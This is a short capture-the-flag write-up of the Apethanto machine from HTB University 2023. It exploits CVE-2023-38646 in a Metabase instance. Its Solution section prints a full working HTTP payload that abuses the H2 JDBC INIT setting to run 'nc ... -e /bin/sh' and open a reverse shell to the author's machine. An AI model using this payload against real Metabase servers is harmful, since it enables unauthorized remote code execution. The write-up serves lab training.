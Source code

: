 ```yaml
---
title: Apethanto
type: writeup
date: 2023-12-10T14:21:20+02:00
description: Writeup for Apethanto [HTB University 2023]
author: H0N3YP0T
tags:
- fullpwn
- web
draft: false
---
```

___

## Intuition

We first arrive into a website which seems to be static. But after inspecting the source code we noticed a link to a `metabase` vhost.
After adding the vhost to my `/etc/hosts` file, I was able to access the metabase instance.
![website](/images/HTB_University_2023/apethanto.png)
![website](/images/HTB_University_2023/metabase.png)

After some research, I found out that the metabase instance was vulnerable to CVE-2023-38646, a pre-authentication RCE vulnerability.

## Solution

In order to exploit the vulnerability I first created an `nc` server on my machine to be able to RCE and I used the following payload:

```http request
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 734


{
    "token": "819139a8-1ce9-46f0-acf8-9b4fc0d1164b",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
  "details": {
            "advanced-options": true,
            "classname": "org.h2.Driver",
            "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('nc 10.10.15.8 8000 -e /bin/sh');",
            "subprotocol": "h2"
        },
"engine": "postgres",
        "name": "x"
    }

}
```

After running the payload, I received a reverse shell on my machine and I was able to read the flag in `/home/metabase/user.txt`.



